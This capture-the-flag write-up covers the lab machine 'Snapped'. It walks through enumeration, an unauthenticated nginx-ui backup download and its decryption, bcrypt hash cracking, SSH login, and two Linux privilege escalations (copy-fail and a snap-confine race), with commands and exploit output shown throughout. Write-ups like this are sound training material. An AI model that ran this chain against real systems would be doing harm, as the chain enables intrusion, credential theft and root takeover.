


# Snapped
## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT 10.129.13.146
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-10 15:08 +0100
Nmap scan report for 10.129.13.146
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.53 seconds
```

### Nmap
```python
nmap -p 22,80 -A --min-rate=2000 -sT 10.129.13.146    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-10 15:08 +0100
Nmap scan report for 10.129.13.146
Host is up (0.013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://snapped.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So it looks like its given me the domain name `snapped.htb`

Ill add this to `/etc/hosts`

## SSH (22)

### Testing auth method
```python
ssh root@snapped.htb                         
The authenticity of host 'snapped.htb (10.129.13.146)' can't be established.
ED25519 key fingerprint is: SHA256:n0XlQQqHGczclhalpCeoOZDYQGr7rl3WlJytHLWPkr8
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'snapped.htb' (ED25519) to the list of known hosts.
root@snapped.htb's password:
```
Password based authentication, less secure than key based

### Version info
```python
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
```
This version of SSH is not vulnerable

## HTTP (80)

### Ffuf for subdomains
```python
ffuf -u http://snapped.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.snapped.htb' -t 40 -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snapped.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.snapped.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

admin                   [Status: 200, Size: 1407, Words: 164, Lines: 50, Duration: 20ms]
:: Progress: [114442/114442] :: Job [1/1] :: 2531 req/sec :: Duration: [0:00:39] :: Errors: 0 ::
```
Using host header injection i have found a subdomain `admin`

Ill add this to `/etc/hosts` as well

Nothing found on a vulnerability scan

No interesting directories on `http://snapped.htb`

Also nothing looks to be vulnerable at a glance on the site

### `admin` subdomain

#### Feroxbuster for directories
```python
feroxbuster -u http://admin.snapped.htb/ -C 404 --dont-filter

200      GET       30l      282w    11373c http://admin.snapped.htb/pwa-192x192.png
200      GET        6l       17w     1344c http://admin.snapped.htb/favicon-32x32.png
200      GET        9l       12w      243c http://admin.snapped.htb/browserconfig.xml
200      GET       63l      116w     1316c http://admin.snapped.htb/manifest.json
200      GET      106l      588w    50147c http://admin.snapped.htb/pwa-512x512.png
301      GET        0l        0w        0c http://admin.snapped.htb/assets => assets/
200      GET       64l      142w    75487c http://admin.snapped.htb/favicon.ico
200      GET        1l     8254w   308866c http://admin.snapped.htb/assets/index-Cjd4fVAL.css
403      GET        1l        2w       34c http://admin.snapped.htb/mcp
200      GET      624l    38187w  2050223c http://admin.snapped.htb/assets/index-DoHxQupa.js
200      GET       50l      104w     1407c http://admin.snapped.htb/
```
Found some interesting directories

#### Nuclei vulnerability scan
```python
nuclei -u http://admin.snapped.htb/

[CVE-2026-33032] [http] [critical] http://admin.snapped.htb/mcp_message
[waf-detect:nginxgeneric] [http] [info] http://admin.snapped.htb/
[ssh-auth-methods] [javascript] [info] admin.snapped.htb:22 ["["publickey","password"]"]
[ssh-password-auth] [javascript] [info] admin.snapped.htb:22
[ssh-sha1-hmac-algo] [javascript] [info] admin.snapped.htb:22
[ssh-server-enumeration] [javascript] [info] admin.snapped.htb:22 ["SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.15"]
[openssh-detect] [tcp] [info] admin.snapped.htb:22 ["SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.15"]
[nginx-version] [http] [info] http://admin.snapped.htb/ ["nginx/1.24.0"]
[ikev2-transforms-enum:transforms] [javascript] [info] admin.snapped.htb:500 ["PROBE:AES-CBC-128:error:conn-error","PROBE:3DES-CBC:error:conn-error","PROBE:CHACHA20-POLY1305:error:conn-error","PROBE:AES-GCM-16ICV-256:error:conn-error","PROBE:AES-GCM-16ICV-128:error:conn-error","PROBE:AES-CBC-256:error:conn-error"]
[CVE-2026-27944:backup_security_header] [http] [critical] http://admin.snapped.htb/api/backup ["XlGwVSDB29IbNZXbF/kcDS/MynbYEVK9fUHnA/zCUGA=:gOcHgZwEHru3C8aUUCb98Q=="]
[http-missing-security-headers:content-security-policy] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:x-frame-options] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:x-content-type-options] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:referrer-policy] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:strict-transport-security] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:permissions-policy] [http] [info] http://admin.snapped.htb/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://admin.snapped.htb/
[nginx-eol:version] [http] [info] http://admin.snapped.htb/ ["1.24.0"]
[robots-txt-endpoint] [http] [info] http://admin.snapped.htb/robots.txt
[tech-detect:nginx] [http] [info] http://admin.snapped.htb/
[browserconfig-xml] [http] [info] http://admin.snapped.htb/browserconfig.xml
[robots-txt] [http] [info] http://admin.snapped.htb/robots.txt
[caa-fingerprint] [dns] [info] admin.snapped.htb
```
Nuclei found two critical vulnerabilities



There is also directory listing on the `/assets/` directory

Now ill do some research into both critical CVEs nuclei found

## CVE-2026-27944

https://github.com/advisories/GHSA-g9w5-qffc-6762

So making a request to the endpoint `/api/backup` allows an unauthenticated attacker to download the backup for nginx

This github page also has a proof of concept

To exploit this ill have to setup a venv in python since it uses the `pycryptodome` library

```python
python3 -m venv POC

source POC/bin/activate

pip3 install pycryptodome
```
So now the environment is setup i can run the script

```python
python3 CVE-2026-27944.py --target http://admin.snapped.htb/ --decrypt

X-Backup-Security: xpiIkj8Nu1jWGXdDp/BiDzq7BxQ0VXgAA5pFeMIhZBo=:/DSu2sdyJcDMgL58ejoTGw==
Parsed AES-256 key: xpiIkj8Nu1jWGXdDp/BiDzq7BxQ0VXgAA5pFeMIhZBo=
Parsed AES IV    : /DSu2sdyJcDMgL58ejoTGw==

[*] Key length: 32 bytes (AES-256 ✓)
[*] IV length : 16 bytes (AES block size ✓)

[*] Extracting encrypted backup to backup_extracted
[*] Main archive contains: ['hash_info.txt', 'nginx-ui.zip', 'nginx.zip']
[*] Decrypting hash_info.txt...
    → Saved to backup_extracted/hash_info.txt.decrypted (199 bytes)
[*] Decrypting nginx-ui.zip...
    → Saved to backup_extracted/nginx-ui_decrypted.zip (7688 bytes)
    → Extracted 2 files to backup_extracted/nginx-ui
[*] Decrypting nginx.zip...
    → Saved to backup_extracted/nginx_decrypted.zip (9936 bytes)
    → Extracted 22 files to backup_extracted/nginx

[*] Hash info:
nginx-ui_hash: 9a01b67a51bec2b9b0e55ead3b5689543355c5eb6b897273a53a96874ad2c73a
nginx_hash: fe6c270e128a7180fec2a1c6100853ced6f7ef021dedc42ec3053756161fcbd8
timestamp: 20260610-104150
version: 2.3.2
```
These two hashes here are not crackable.

But looking further i see the POC script created a `backup_extracted` directory and looking through that i find a `database.db` file

```python
file database.db                                                                                                                            
database.db: SQLite 3.x database, last written using SQLite version 3050004, file counter 79, database pages 64, cookie 0x39, schema 4, UTF-8, version-valid-for 79
```
Checking the file i see its SQLite, so ill open this in sqlitebrowser



I have found more hashes, one for admin and one for user jonathan

After putting both into a txt file and giving it to hashcat, hashcat thinks its bcrypt of some sort which would make sense given the start of the hash

### Cracking the hash
```python
hashcat htb/snapped/more-hashes.txt /usr/share/wordlists/rockyou.txt -m 3200

$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark
```
It cracked the hash for `jonathan` the other did not crack.

Ill attempt this on SSH first

## SSH access as `jonathan`

```python
ssh jonathan@snapped.htb
jonathan@snapped.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.17.0-19-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Fri Mar 20 12:27:50 2026 from 10.10.14.5
jonathan@snapped:~$
```
Got access over SSH as `jonathan`

### Privilege escalation

```python
scp linpeas.sh jonathan@snapped.htb:/home/jonathan/Documents 
jonathan@snapped.htb's password: 
linpeas.sh
```
Ill upload linpeas to the target

```python
╔══════════╣ Checking for Copy Fail (CVE-2026-31431) (T1068)
╚ https://copy.fail/
╚ https://www.cve.org/CVERecord?id=CVE-2026-31431
VULNERABLE: non-destructive AF_ALG/splice page-cache write triggered
```
Of course it is vulnerable to copy-fail since this is a recent zero day that dropped that effects all linux pre-patched versions

```python
╔══════════╣ Kernel Exploit Registry (T1068)
═╣ Operating system ............. Linux
═╣ Kernel release ............... 6.17.0-19-generic
═╣ Comparable version ........... 6.17.0.19
═╣ Data chunk limit ............. max 25 rows per KERNEL_CVE_DATA_* variable (1..21)
═╣ Kernel config source ......... /boot/config-6.17.0-19-generic
CVE: CVE-2025-38236 | Name: AF_UNIX MSG_OOB UAF | Match data: pkg=linux-kernel,ver>=6.9.0 | Tags: 1 | Rank: Migrated from former standalone 1_system_information check
═╣ Kernel vulns found: 1
```
Found another exploit, could be a false positive though

```python
╔══════════╣ Checking for Dirty Frag (CVE-2026-43284 / CVE-2026-43500) (T1068)
╚ https://ubuntu.com/blog/dirty-frag-linux-vulnerability-fixes-available
╚ https://www.cve.org/CVERecord?id=CVE-2026-43284
╚ https://www.cve.org/CVERecord?id=CVE-2026-43500
CVE-2026-43284 (xfrm-ESP): autoloadable: esp4 esp6 xfrm_user ipcomp6
CVE-2026-43500 (rxrpc): autoloadable: rxrpc
```
Similar to copy-fail dirty frag is a recent zero day so it will be vulnerable to this too, but i dont think these are intended

## Root access (copy-fail)

https://raw.githubusercontent.com/theori-io/copy-fail-CVE-2026-31431/refs/heads/main/copy_fail_exp.py

```python
scp copy-fail.py jonathan@snapped.htb:/home/jonathan/Documents  
jonathan@snapped.htb's password: 
copy-fail.py
```
Ill transfer the script

```python
jonathan@snapped:~/Documents$ which python3
/usr/bin/python3
jonathan@snapped:~/Documents$ python3 copy-fail.py 
# whoami
root
#
```
Root access

## Root access (intended)

https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE

Ill clone the repo then just follow the steps on my machine since the target does not have the gcc compiler

```python
gcc -O2 -static -o exploit exploit_suid.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
```
Ill run both these commands to compile the exploit.

```python
scp exploit jonathan@snapped.htb:/home/jonathan/Documents 
jonathan@snapped.htb's password: 
exploit

scp librootshell.so jonathan@snapped.htb:/home/jonathan/Documents 
jonathan@snapped.htb's password: 
librootshell.so
```
Ill transfer both to the target

```python
jonathan@snapped:~/Documents$ ./exploit ./librootshell.so 
================================================================
    CVE-2026-3888 — snap-confine / systemd-tmpfiles SUID LPE
================================================================
[*] Payload: /home/jonathan/Documents/./librootshell.so (9056 bytes)

[Phase 1] Entering Firefox sandbox...
[+] Inner shell PID: 63538

[Phase 2] Waiting for .snap deletion...
[*] Polling (up to 30 days on stock Ubuntu).
[*] Hint: use -s to skip.
[+] .snap deleted.

[Phase 3] Destroying cached mount namespace...
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_KW5if9//dev: No such file or directory
[+] Namespace destroyed.

[Phase 4] Setting up and running the race...
[*]   Working directory: /proc/63538/cwd
[*]   Building .snap and .exchange...
[*]   285 entries copied to exchange directory
[*]   Starting race...
[*]   Monitoring snap-confine (child PID 63882)...

[!]   TRIGGER — swapping directories...
[+]   SWAP DONE — race won!
[*]   ld-linux in namespace: jonathan:jonathan 755
[+]   Poisoned namespace PID: 63882

[Phase 5] Injecting payload into poisoned namespace...
[+]   ld-linux owned by uid 1000 (attacker). Race confirmed.
[*]   Planting busybox...
[*]   Writing escape script → /tmp/sh
[*]   Overwriting ld-linux-x86-64.so.2...
[+]   Payload injected.

[Phase 6] Triggering root via SUID snap-confine...
[*]   snap-confine → snap-confine (SUID trigger)
[*]   Exit status: 0

[Phase 7] Verifying...
[+] SUID root bash: /var/snap/firefox/common/bash (mode 4755)
[*] Cleaning up background processes...

================================================================
  ROOT SHELL: /var/snap/firefox/common/bash -p
================================================================

bash-5.1# whoami
root
bash-5.1#
```
I now have access as root the intended way
